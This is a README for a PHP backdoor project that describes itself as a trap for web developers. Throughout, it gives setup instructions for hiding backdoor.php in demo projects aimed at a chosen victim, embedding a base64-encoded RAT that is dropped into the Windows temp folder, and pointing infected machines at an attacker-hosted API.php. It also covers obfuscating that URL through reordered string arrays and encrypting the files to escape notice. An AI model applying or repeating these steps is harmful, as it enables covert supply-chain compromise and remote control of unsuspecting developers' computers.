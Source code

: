 # Ursulita Project
**Tested on**: PHP  7.0.27

**Tags**:PHP, backdoor, RAT, API

Thanks to [@Yulefier](https://github.com/Yulefier "@Yulefier") for helping.
# Description
Ursulita project is a web injectable backdoor for windows.

# Getting started

First the project is just an idea about hunting a web developers using a simple trap, You have **backdoor.php** file, you should inject this file inside a demo project or any project that you might know your victim is interested in, 

    $filename = "ursulita.exe"; 

so this will be the file name in the windows temp folder, you can rename it as you want, 

Inside the API.php file there's two important things first is the API jey

    case"ursulita".sha1("3433"): //The API key validation

so that's mean the API key will be **ursulita+3433(hashed into sha1)**

so the full API key will be..

    ursulitaF3C9B754086C5C5C8C23F084E2A523DE8FD9C769
if you wanted to change the API key , you must change it in backdoor.php file too.

The second thing and the most important is the RAT details or whatever you wanna inject in the victim PC, it will be encoded inside **API.php** file,
You can encode it using **encoder.php** tool that included with the project,

just by changing this two:

    $file = "ursulita.exe"; //The input file name
    $outfile = "EncodedUrsulita.txt"; //Output file name
Then from **EncodedUrsulita.txt** you take the **base64** encoded data and put it inside **API.php**.

So you will include the classes folder and the backdoor details in the victim project , but the **API.php** file should be on external public server because the victim PC will try to connect into the **API.php**.

Also , you should put the **API.php** link inside **/classes/SETTING.php** file:

    $index = array(0, 2, 3, 1, 5, 6, 4, 8, 9, 7, 11,10);
    //  The below array is http://127.0.0.1/api.php , you need to change it to your API.php file link
    $code = array("h", "p", "t", "t", "127.", ":", "//", "1", "0.", "0.", "api.php","/" );

This function is reading the **$code** array elements then it print them as your custom order in **$index** array .

The encoder.php tool this stays for you only.
some other ideas might be usefull for you, it's prefered to encrypt the **backdoor.php** and **SETTING.php** contains before injecting them in the victim project, encrypt them with a private key and hide the key in the victem project too , if you want to know more about the **AES** encrypting [Click Here](https://aesencryption.net/) .

# The project diagram

This is simple diagram to make it more clear.

![enter image description here](https://github.com/Alaa-abdulridha/Ursulita-Web-developers-trap/blob/master/Plan.png?raw=true)
